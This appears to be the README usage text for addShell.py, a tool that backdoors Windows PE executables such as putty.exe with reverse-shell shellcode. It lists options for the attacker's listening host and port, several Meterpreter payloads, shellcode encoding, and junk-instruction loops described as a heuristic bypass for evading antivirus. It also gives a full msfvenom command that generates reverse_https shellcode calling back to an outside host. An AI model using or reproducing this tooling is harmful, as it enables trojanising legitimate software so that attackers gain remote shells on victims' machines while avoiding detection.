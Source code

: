 My implementation of automatically adding a backdoor shell to a PE file.

    Usage: usage python addShell.py [OPTIONS]
    Example: python addShell.py -f ./putty.exe -H 192.168.1.10 -P 443 -p 3 

    Options:
      -h, --help        show this help message and exit
      -f FILE           Specify input PE file to backdoor
      -o OUTPUT         Specify output location to save backdoored file.
                          Default=inputFile_evil.exe
      -H HOSTIP         Specify IP Address of listening Host for reverse connection, ex: 192.168.1.10
      -P PORT           Specify listening port number, ex: 4321
      -s SHELLCODE      Specify custom shellcode to use, NOTE: this feature in backdoor mode adds 310 bytes to shellcode size
                          NOTE: must be in "feedbeef" hex format, recommend using the following command to properly format shellcode:
                          msfvenom -p windows/meterpreter/reverse_https LHOST=1.2.3.4 LPORT=443 -f raw | xxd -p | tr -d " "
      -p PAYLOAD        Specify payload.  Default shell_reverse_tcp.  Valid values are:
                          0 - windows/shell_reverse_tcp
                          1 - windows/meterpreter/reverse_http
                          2 - windows/meterpreter/reverse_http +PrependMigrate
                          3 - windows/meterpreter/reverse_https
                          4 - windows/meterpreter/reverse_https +PrependMigrate
      -m MODE           Specify program mode.  Program was designed to backdoor executables, but if you really need to, you can disable normal program execution with the FRONTDOOR mode.
                          Valid values are (Default 0):
                          0 - BACKDOOR
                          1 - FRONTDOOR
      -t TARGETOS       Specify the target Operating System (used for preserving ESP).  Default Win7_64bit.  Valid values are:
                          0 - Win7_32bit
                          1 - Win7_64bit
                          2 - Win8.1_64bit
                          3 - Win10_64bit
      -d OFFSET         Specify the offset distance between shellcode and start of cave.  Recommend increasing this value if PE is crashing after shell. 
                          Default: 4
      -j NUM_JUNK       Specify the number of "Junk" Instructions to use in heuristic bypass routine.  
                          Default 30
      -J NUM_JUNK_ITER  Specify the number of times to iterate over all "Junk" Instructions used in heuristic bypass routine.
                          Default 20,000,000
      -e NUM_ENCODE     Specify number of random operations used to encode the shellcode. 
                          Default: 10, Max: 40
